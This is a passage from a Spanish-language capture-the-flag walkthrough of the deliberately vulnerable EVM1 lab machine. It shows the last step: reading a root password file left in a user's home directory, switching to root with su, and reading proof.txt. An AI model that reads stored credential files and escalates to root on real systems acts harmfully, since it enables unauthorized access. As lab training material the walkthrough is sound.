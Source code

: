 <img src="https://github.com/El-Palomo/EVM1/blob/main/evm10.jpg" width=80% />


- Está super sencillo esta vez, encontramos el password: willy26

```
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home$ cat root3r/.root_password_ssh.txt
<ulnerable-m4ch1ine:/home$ cat root3r/.root_password_ssh.txt                 
willy26
```

```
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home$ su root
su root
Password: willy26

root@ubuntu-extermely-vulnerable-m4ch1ine:/home# cd 
cd 
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
```
